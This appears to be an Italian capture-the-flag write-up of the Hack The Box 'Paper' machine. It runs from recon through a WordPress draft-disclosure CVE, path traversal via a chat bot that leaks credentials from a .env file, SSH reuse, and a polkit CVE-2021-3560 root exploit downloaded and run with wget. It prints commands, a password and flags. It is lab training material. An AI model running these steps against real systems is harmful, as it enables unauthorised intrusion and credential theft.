









# Paper - Linux - Easy

## Target: 10.129.136.31

---

## Recon

### Nmap

```bash
nmap -sC -sV 10.129.136.31 -oA fast_scan
```

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-24 17:55 +0200
Nmap scan report for 10.129.136.31
Host is up (0.040s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
```



### Open Ports Summary

| Port | Service  | Version             |
|------|----------|---------------------|
| 22   | SSH      | OpenSSH 8.0         |
| 80   | HTTP     | Apache httpd 2.4.37 |
| 443  | HTTPS    | Apache httpd 2.4.37 |

---

## Web (Port 80)

Navigando su `http://10.129.136.31` si vede una pagina di default CentOS Apache, senza contenuti interessanti.


Ispezionando gli header HTTP della risposta con `curl -I`:

```bash
curl -I http://10.129.136.31
```

```
HTTP/1.1 403 Forbidden
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Content-Length: 199691
```

L'header `X-Backend-Server: office.paper` rivela un virtual host nascosto. Si aggiunge a `/etc/hosts`:

```bash
echo "10.129.136.31 office.paper" | sudo tee -a /etc/hosts
```

---

## WordPress Enumeration

Visitando `http://office.paper` si accede a un blog WordPress chiamato **Blunder Tiffin Inc.**


Scansione con WPScan:

```bash
wpscan --url http://office.paper --enumerate u,p
```



Risultati chiave:
- **WordPress 5.2.3** (rilasciato 2019-09-04, insicuro)
- Utenti trovati: `prisonmike`, `nick`, `creedthoughts`

Leggendo i post del blog, nel post "Feeling Alone!" si trova un commento sospetto di Nick:


> *"Michael, you should remove the secret content from your drafts ASAP, as they are not that secure as you think!"*

---

## Foothold

### CVE-2019-17671 — WordPress Unauthenticated Draft Disclosure

WordPress 5.2.3 è vulnerabile a **CVE-2019-17671**, che permette di visualizzare post in bozza senza autenticazione tramite il parametro `?static=1`:

```
http://office.paper/?static=1
```



Nel draft si trova l'URL segreto del sistema di chat interno:

```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Si aggiunge il nuovo sottodominio a `/etc/hosts`:

```bash
sudo sed -i 's/office.paper/office.paper chat.office.paper/' /etc/hosts
```

Registrandosi tramite l'URL si accede a **Rocket.Chat**.



---

## Bot Exploitation — Path Traversal

Nel canale `#general` è presente il bot **Recyclops**, che risponde a comandi DM per listare e leggere file dalla cartella `/sales`.



Aprendo una Direct Message con il bot, si testa il path traversal:

```
list ../
```


Il bot non filtra il path, permettendo di navigare fuori dalla cartella sales. Si individua la directory `hubot` con il file `.env`:

```
recyclops file ../hubot/.env
```



```
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

---

## Shell as Dwight

Le credenziali vengono riutilizzate per SSH con l'utente `dwight`:

```bash
ssh dwight@10.129.136.31
```

Password: `Queenofblad3s!23`



### User Flag

```bash
cat ~/user.txt
```

```
1c01cd210d7ed19c489335035416db20
```



---

## Privilege Escalation

### Enumerazione

```bash
sudo -l
# Sorry, user dwight may not run sudo on paper.

rpm -qa | grep polkit
# polkit-0.115-6.el8.x86_64
```

**polkit 0.115** è vulnerabile a **CVE-2021-3560**, un bypass di autenticazione che permette di creare un utente con privilegi sudo tramite una race condition su `dbus`.

### CVE-2021-3560 — Polkit Authentication Bypass

PoC: [https://www.exploit-db.com/exploits/50011](https://www.exploit-db.com/exploits/50011)

Si scarica lo script, si correggono i line ending e si modifica l'username hardcodato:

```bash
# Su Kali
sed -i 's/\r//' exploit.sh
sed -i 's/userName="hacked"/userName="fede"/g' exploit.sh
sed -i 's/realName="hacked"/realName="fede"/g' exploit.sh

# Trasferimento sulla macchina target
python3 -m http.server 8080
```

```bash
# Su paper
wget http://10.10.15.211:8080/exploit.sh
chmod +x exploit.sh
./exploit.sh
```

L'exploit crea un nuovo utente `fede` con uid nel gruppo `wheel` (sudo). Si esegue il privesc:

```bash
su - fede        # password: password
sudo su          # password: password
```



### Root Flag

```bash
cat /root/root.txt
```

```
5b12b85f493f70f1103302a7c6de4f47
```

---

## Loot

| Username | Password             | Dove trovato         |
|----------|----------------------|----------------------|
| dwight   | Queenofblad3s!23     | hubot `.env` via bot |

---

## Lessons Learned

1. **Gli header HTTP sono una fonte di informazioni preziosa** — `X-Backend-Server` ha rivelato direttamente il vhost senza bisogno di fuzzing.
2. **Leggere attentamente i contenuti web** — il commento di Nick era l'hint diretto per il CVE di WordPress; non affrettarsi nell'enumerazione.
3. **LinPEAS prima di tutto nel privesc** — invece di cercare CVE a caso, LinPEAS avrebbe evidenziato polkit vulnerabile direttamente. Usarlo sistematicamente dopo `sudo -l` e SUID.
4. **I PoC vanno sempre letti e adattati** — lo script aveva username hardcodato e line endings Windows; modificare il PoC prima di trasferirlo evita perdite di tempo.
